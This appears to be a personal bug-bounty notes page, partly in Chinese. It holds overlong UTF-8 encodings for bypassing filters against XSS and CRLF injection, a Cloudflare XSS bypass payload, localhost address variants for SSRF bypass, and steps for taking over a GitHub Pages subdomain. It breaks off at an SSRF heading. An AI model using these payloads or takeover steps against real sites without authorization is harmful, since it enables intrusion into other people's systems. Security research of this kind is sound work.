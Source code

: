 ## Bug Bounty Tips
#tips #bypass #xss #crlf 
Overlong UTF-8 encoding Attack

2-byte / 3-byte ⇒ original

%C0%8A / %E0%80%8A ⇒ %0A
%C0%8D / %E0%80%8D ⇒ %0D
%C0%BE / %E0%80%BE ⇒ %3E (>)
%C0%BC / %E0%80%BC ⇒ %3C (<)
%C0%A2 / %E0%80%A2 ⇒ %22 (")
%C0%A7 / %E0%80%A7 ⇒ %27 (')

For XSS, CRLF, WAF bypass
![[../media/bypass-20230911.jpg]]
https://jsfiddle.net/bw1Lhxnt

## Cloudflare XSS protection bypass
#bypass #xss #Cloudflare
```
"&gt;&lt;Svg Only=1 OnLoad=confirm(atob("Q2xvdWRmbGFyZSBYU1MgQG1fa2VsZXBjZQ=="))&gt;
```

## Bug Bounty Tips
#tips #ssrf
List of localhost addresses for SSRF bypass
```
🔹http://localhost
🔹http://*.localhost
🔹http://127.1
🔹http://127.0.0.0
🔹http://127.0.0.1
🔹http://2130706433
🔹http://0177.1
🔹http://0x7f.1
🔹http://127.000.000.1
🔹http://localtest .me
🔹http://[::1]
🔹http://[::]
```

## Github页面接管—子域名接管
### 原理
1. 目标子域 xxx.xx.com
![[../media/github404.jpg]]
2. dig +域名 拿到cname地址
xxx.github.io

3. github创建一个一样的仓库名
(原理是子域名cname指向这个空的githun页面可以被任何人创建并接管)

4. custom domain 设为 目标子域xxx.xx.com

### 工具🛠️推荐
1. https://github.com/m4ll0k/takeover
2. https://github.com/antichown/subdomain-takeover

## SSRF漏洞自整理
#ssrf 
1. 漏洞原理